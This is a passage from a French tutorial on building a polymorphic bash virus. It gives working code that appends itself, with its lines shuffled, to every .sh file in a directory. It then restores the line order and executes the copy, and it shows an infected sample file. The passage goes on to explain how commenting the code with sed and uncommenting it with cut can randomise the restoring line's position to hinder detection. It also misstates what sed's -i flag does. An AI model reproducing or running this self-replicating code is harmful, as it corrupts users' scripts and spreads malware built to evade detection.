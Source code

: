On va numéroter chaque ligne de notre virus à l'aide des commentaires, quelque chose comme : `# @7` pour la septième ligne, par exemple. Il nous suffira ensuite d'appliquer un `sort -R virus.sh` pour permuter aléatoirement notre virus, comme expliqué précedemment, puis un `sort -n -t@ -k2 virus.sh` pour remettre en place notre virus (`-n` signifie qu'on trie numériquement, `-t` indique le séparateur qu'on utilise pour indiquer les nombres à utiliser et `-k` sélectionne le côté de la séparation qui nous intéresse (appliquer un `-t@` coupera `# @7` en deux, d'un côté `#`, de l'autre `7` (c'est donc le deuxième côté qui nous intéresse))).

Commençons un peu à coder (sans nous préoccuper d'intégrer maintenant notre code de non-surinfection) :

```bash
tail -n 4 $0 | sort -n -t@ -k2 > virus && chmod +x virus && ./virus
for f in *.sh; do # @1
  echo 'tail -n 4 $0 | sort -n -t@ -k2 > virus && chmod +x virus && ./virus' >> $f # @2
  tail -n 4 $0 | sort -R >> $f # @3
done # @4
```

Je n'ai pas grand chose à ajouter, la première ligne constitue notre fonction qui va remettre en ordre le code du virus au-dessous d'elle (qui est potentiellement permuté) puis l'exécuter. Le virus va ensuite, pour chaque cible en `.sh`, ajouter cette fonction au fichier à infecter puis ajouter les quatre dernières lignes de son code, permutées par sort.

Voici un fichier cible d'exemple :

```bash
echo 'Ceci est un fichier infecté. :('
```

L'exécution de notre virus précédent va infecter ce fichier cible comme cela, par exemple :

```bash
echo 'Ceci est un fichier infecté. :('
tail -n 4 $0 | sort -n -t@ -k2 > virus && chmod +x virus && ./virus
  echo 'tail -n 4 $0 | sort -n -t@ -k2 > virus && chmod +x virus && ./virus' >> $f # @2
done # @4
  tail -n 4 $0 | sort -R >> $f # @3
for f in *.sh; do # @1
```

(Et l'exécution de ce fichier infecté va suivre le comportement décrit juste ci-dessus.)

Afin d'améliorer notre polymorphisme, il serait intéressant de permuter la position de la première ligne (la fonction de permutation inverse) en même temps que le reste du code. Cela pose cependant un gros problème, comment appliquer alors la permutation inverse ?

La solution se trouve encore… dans les commentaires ! Eh oui, en commentant tout le virus sauf la fonction de permutation inverse, on peut permuter à souhait le code entier et son exécution commencera donc forcément par notre fonction de permutation inverse (puisque le reste du code est un commentaire). Il faudra simplement décommenter notre code en le triant puis l'exécuter. On va utiliser ici les commandes [sed](http://pwet.fr/man/linux/commandes/sed) et `cut` pour respectivement commenter et décommenter notre code. Le commenter est plus délicat car il s'agit de rajouter `#` à chaque début de ligne. C'est ici que rentre en jeu la très puissante commande `sed` qui, en quelques mots, manipule des fichiers ligne par ligne selon les instructions de l'utilisateur (le plus souvent sous forme de regex). Je vous laisse consulter le manuel, notre utilisation se résumant à un `sed -i "s/^/# /"` (l'argument `-i` indique l'ajout de caractères à une ligne et la `regex s/^/#` indique qu'on rajoute `#` à chaque début de ligne (`^`)). La commande `cut` va s'utiliser avec l'argument `-c` qui indique qu'on considère notre code comme un tableau auquel on choisit les colonnes à afficher. En commentant, on ajoute un dièse et un espace (colonne 1 et 2), on va donc sélectionner tout le code à partir de la colonne 3 ce qui se fait comme ceci : `cut -c3- virus`. Il faut enfin changer la position de la première ligne dans le fichier cible et ce, toujours avec la commande `sed` utilisée comme ceci : `sed -i "/POSITION/ i\PREMIERE LIGNE"` (on insère la `PREMIERE LIGNE` au-dessus de la `POSITION-ième` ligne et ce, aléatoirement ; consultez le manuel pour plus de précisions).
